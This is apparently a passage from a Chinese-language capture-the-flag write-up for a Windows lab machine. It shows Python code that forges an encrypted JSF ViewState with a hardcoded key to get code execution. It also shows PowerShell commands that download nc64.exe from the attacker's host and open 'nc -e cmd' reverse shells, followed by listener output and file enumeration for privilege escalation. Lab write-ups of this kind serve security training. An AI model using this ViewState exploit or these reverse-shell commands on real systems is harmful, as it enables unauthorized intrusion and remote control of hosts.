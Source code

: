 ```
pad = (8 - (len(payload) % 8)) % 8
padded = payload + (chr(pad)*pad).encode()

d = DES.new(b'JsF9876-', DES.MODE_ECB)
enc_payload = d.encrypt(padded)
sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()
viewstate = b64encode(enc_payload + sig)

sess = requests.session()
sess.get('http://10.10.10.130:8080/userSubscribe.faces')
resp = sess.post('http://10.10.10.130:8080/userSubscribe.faces',
        data = {'j_id_jsp_1623871077_1%3Aemail': 'd',
                'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',
                'j_id_jsp_1623871077_1_SUBMIT': '1',
                'javax.faces.ViewState': viewstate})
```

执行以下命令上传 nc 并使用 nc 连接本地443端口

```
python3 exploit2.py "powershell -c Invoke-Webrequest -uri 'http://10.10.14.14/nc64.exe' -outfile \windows\system32\spool\drivers\color\nc.exe"
python3 exploit2.py "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.14 443"
```

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.130.
Ncat: Connection from 10.10.10.130:49720.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

成功收到反弹shell，在当前用户的桌面上找到第一个flag.

# 权限提升

## 获得密码

在主目录下枚举关键文件

```
C:\>dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
C:\Users\alfred\Desktop\user.txt
C:\Users\alfred\Documents\tomcat.bat
C:\Users\alfred\Downloads\backups\backup.zip
C:\Users\alfred\Favorites\Bing.url
C:\Users\alfred\Links\Desktop.lnk
C:\Users\alfred\Links\Downloads.lnk
```


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 